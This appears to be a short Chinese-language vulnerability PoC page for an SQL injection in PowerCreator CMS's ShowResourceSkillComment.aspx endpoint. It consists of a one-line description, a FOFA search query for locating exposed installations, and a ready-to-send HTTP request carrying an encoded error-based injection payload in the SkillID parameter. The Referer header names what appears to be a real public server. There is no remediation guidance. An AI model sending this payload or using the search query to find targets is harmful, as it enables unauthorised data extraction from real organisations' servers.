 ## PowerCreator接口ShowResourceSkillComment.aspx存在sql注入漏洞

PowerCreator接口 ShowResourceSkillComment.aspx存在任意文件sql注入漏洞。攻击者可利用该漏洞获取服务器上的信息。

## fofa

```yaml
app="PowerCreator-CMS"
```

![image](https://github.com/user-attachments/assets/fcc5c0c8-6a56-42a0-9aba-0d65b1d63a56)

## poc

```yaml
GET /ShowResourceSkillComment.aspx?rid=3&SkillID=1%20AND%204312%20IN%20%28SELECT%20%28CHAR%28113%29%2BCHAR%28122%29%2BCHAR%28106%29%2BCHAR%28106%29%2BCHAR%28113%29%2B%28SELECT%20%28CASE%20WHEN%20%284312%3D4312%29%20THEN%20CHAR%2849%29%20ELSE%20CHAR%2848%29%20END%29%29%2BCHAR%28113%29%2BCHAR%28122%29%2BCHAR%28120%29%2BCHAR%28118%29%2BCHAR%28113%29%29%29 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://221.199.170.130:88/StandardPlatform/Default.aspx
Cookie: ASP.NET_SessionId=l2wuj2tri5e554020jeezoyw; language=simpleChineses
Pragma: no-cache
Cache-Control: no-cache


```
